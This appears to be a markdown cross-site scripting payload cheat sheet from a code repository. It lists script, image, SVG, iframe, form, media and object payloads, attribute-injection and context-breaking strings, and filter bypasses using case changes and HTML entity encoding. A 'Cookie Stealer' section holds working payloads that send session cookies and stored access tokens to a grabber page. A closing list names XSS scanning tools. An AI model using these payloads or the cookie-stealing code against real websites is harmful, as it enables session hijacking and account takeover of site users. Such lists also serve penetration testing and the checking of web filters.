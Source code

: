# Basic Tag PAYLOADS
<script>prompt(1)</script>
<script onload="alert(1)"></script>
<script onerror="confirm(1)"></script>
```

### Image Tag Payloads
```html
<img src=x onerror="alert(1)">
<img src=x onerror="confirm(1)">
<img src=x onerror="prompt(1)">
<img onload="alert(1)" src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7">
<img onclick="alert(1)" src=x>
<img onmouseover="confirm(1)" src=x>
<img onfocus="prompt(1)" src=x tabindex=1>
```

### SVG Tag Payloads
```html
<svg onload="alert(1)">
<svg onerror="confirm(1)">
<svg onclick="prompt(1)">
<svg onmouseover="alert(1)"><rect width="100" height="100"/></svg>
<svg onfocus="confirm(1)" tabindex=1>
<svg onresize="prompt(1)">
```

### Iframe Payloads
```html
<iframe src="javascript:alert(1)">
<iframe src="javascript:confirm(1)">
<iframe src="javascript:prompt(1)">
<iframe onload="alert(1)" src="about:blank">
<iframe onerror="confirm(1)" src=x>
```

### Form and Input Payloads
```html
<form onsubmit="alert(1)"><input type=submit>
<form onsubmit="confirm(1)"><input type=submit>
<input onfocus="alert(1)" autofocus>
<input onblur="confirm(1)" autofocus>
<input onchange="prompt(1)" value="test">
<input onkeydown="alert(1)" autofocus>
<input onclick="confirm(1)" type=button value="Click">
```

### Video and Audio Payloads
```html
<video onload="alert(1)" controls>
<video onerror="confirm(1)" src=x>
<video onclick="prompt(1)" poster=x>
<audio onload="alert(1)" controls>
<audio onerror="confirm(1)" src=x>
<audio oncanplay="alert(1)" src="data:audio/wav;base64,UklGRnoGAABXQVZFZm10IBAAAAABAAEAQB8AAEAfAAABAAgAZGF0YQoGAACBhYqFbF1fdJivrJBhNjVgodDbq2EcBj">
```

### Object and Embed Payloads
```html
<object onerror="alert(1)" data=x>
<object onclick="confirm(1)" data="data:text/html,<script>prompt(1)</script>">
<embed src=x onerror="alert(1)">
<embed onclick="confirm(1)" src="javascript:alert(1)">
```

## Advanced Combination Payloads
### Multi-Event Combinations
```html
<img src=x onerror="alert(1)" onclick="confirm(1)" onmouseover="prompt(1)">
<svg onload="alert(1)" onclick="confirm(1)"><rect onmouseover="prompt(1)" width="100" height="100"/></svg>
<input onfocus="alert(1)" onblur="confirm(1)" onchange="prompt(1)" autofocus>
```

### Attribute Injection Payloads
```html
" onclick="alert(1)" "
' onmouseover="confirm(1)" '
"> <script>prompt(1)</script> <"
' onfocus="alert(1)" autofocus '
"onload="confirm(1)"
```

### Event Handler Variations
```html
<body onload="alert(1)">
<body onresize="confirm(1)">
<div onclick="prompt(1)">Click me</div>
<button onmouseover="alert(1)">Hover</button>
<textarea onfocus="confirm(1)" autofocus></textarea>
<select onchange="prompt(1)"><option>1</option><option>2</option></select>
```

### Context-Breaking Payloads
```html
</script><script>alert(1)</script>
"></script><svg onload="confirm(1)">
'><img src=x onerror="prompt(1)">
</title><script>alert(1)</script>
</textarea><script>confirm(1)</script>
```

## Filter Bypass Variations
### Case Variation and Obfuscation
```html
<ScRiPt>alert(1)</ScRiPt>
<IMG SRC=x ONERROR="confirm(1)">
<svg/onload="prompt(1)">
<img src=x onerror=alert(1)>
<iframe src=javascript:confirm(1)>
```

### Encoding Variations
```html
<script>alert&#40;1&#41;</script>
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
<svg onload="&#99;&#111;&#110;&#102;&#105;&#114;&#109;&#40;&#49;&#41;">
```

### Cookie Stealer

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

### Tools

Most tools are also suitable for blind XSS attacks:

- [XSSStrike](https://github.com/s0md3v/XSStrike): Very popular but unfortunately not very well maintained
- [xsser](https://github.com/epsylon/xsser): Utilizes a headless browser to detect XSS vulnerabilities
- [Dalfox](https://github.com/hahwul/dalfox): Extensive functionality and extremely fast thanks to the implementation in Go
- [XSpear](https://github.com/hahwul/XSpear): Similar to Dalfox but based on Ruby
- [domdig](https://github.com/fcavallarin/domdig): Headless Chrome XSS Tester
